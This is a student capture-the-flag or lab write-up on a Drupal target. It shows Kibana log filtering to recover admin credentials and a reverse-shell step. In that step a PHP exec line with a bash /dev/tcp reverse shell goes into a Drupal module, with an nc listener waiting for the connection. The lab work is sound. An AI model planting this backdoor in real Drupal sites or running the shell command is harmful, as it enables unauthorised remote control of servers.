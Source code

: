     
## Task 2 -  Web access

Now, we had access to the correct Drupal consol, but not the correct credentials to enter the admin console. We were given the forenesics evidence from Kibana, of over 87,000 hits, so some filtering needed to be done before finding what we were looking for. 

First, we thought that a great place to start looking for credentials was at the `http POST request` messages. When a user logs in, or tries to log in, a http POST request is sent, and a successfull or unsuccessful response is received in return. Then, after adding the filter `http.request.method: POST` we were left with 19 hits. 

When starting looking through some of them, we noticed that several of them tried to access the `user/login` page, and thought that this filter might give us an ever more narrow search. As seen bellow, adding the filer `http.request.headers.referer: http://10.13.37.4/user/login` left us with just 3 hits. 

 ![image](https://user-images.githubusercontent.com/72946914/167696514-2b4ac726-2db8-4f0f-b37b-3dca1585a008.png)

Three different passwords are tried by the attacker, and most likely his last attempt was the successful one. By checking the `http.response` message in this record, we could inndeed see that the user was redirected to `http://10.13.374/user/1?check_logged_in=1`, indicating that the attempt was successful. 
![image](https://user-images.githubusercontent.com/72946914/167710984-476f3164-8e7f-4858-a15c-86fac3a04cf3.png)

Our thought got confirmed when entering the username *god* and the password *password1* and got successfully logged in. 
![image](https://user-images.githubusercontent.com/72946914/164683204-efd1c930-bdf7-4b6b-931f-da415ef65e74.png)

Navigating to the users profile information, we located the flag. 

![image](https://user-images.githubusercontent.com/72946914/167711169-60189d5c-6df1-491f-8c19-5738fe0c1425.png)

**`Flag: IKT449{admin_access=god}`**

## Task 3 - www-data

We already knew that we had to use the technique of reverse shell to get interactive access to www-data, which also could be seen in the logs from Kibana. By investigating the hits from the previous task, we also saw that the Drupal version running at this site was Drupal 9. 

With a quick Google search at "drupal 9 reverse shell" we found several websites explaining the way forward for carrying out this attack. Apparently, several Drupal versions are vulnerable to remote code execution due to an insecure use of `unserialize()` [(source)](https://vk9-sec.com/drupal-7-x-module-services-remote-code-execution/). One of the sites we found [(link)](https://www.sevenlayers.com/index.php/257-drupal-8-to-reverse-shell) provided us with a well-explained step-by-step guide which we benefitted from. 

The guide describes how one can exploit the use of modules in Drupal by inserting code into a `.module` file. At Drupal's own website we downloaded a random module compatible with Drupal 9, in this case called *codefiler*. 

![image](https://user-images.githubusercontent.com/72946914/167477793-47ba477e-a9c9-4883-9b94-d996eb0385b1.png)


After unzipping the module, we added the following code line, with our designated IP address and the desired port number, to the file called `codefilter.module` : 

    exec("/bin/bash -c 'bash -i >& /dev/tcp/ip_address/portnumber 0>&1'");
![image](https://user-images.githubusercontent.com/70077872/167573750-8dca4946-dd94-4f2d-8923-ecbda7b62a48.png)

 At the same time, a port listener was started in a terminal window by executing the command `nc -nvlp portnumber`. 


After uploadning the module, enabling it and installing it for use, we got a shell to www-data. 

![image](https://user-images.githubusercontent.com/70077872/167573128-1848a4ee-8881-4bbb-96e2-9aabb47cfe50.png)

The flag was located in `www-data.txt`.

![image](https://user-images.githubusercontent.com/70077872/167573357-162e2f3f-67d6-414f-bfb7-b871ac042453.png)

**`Flag: IKT449{who_would_have_thought_adding_modules_is_bad}`**
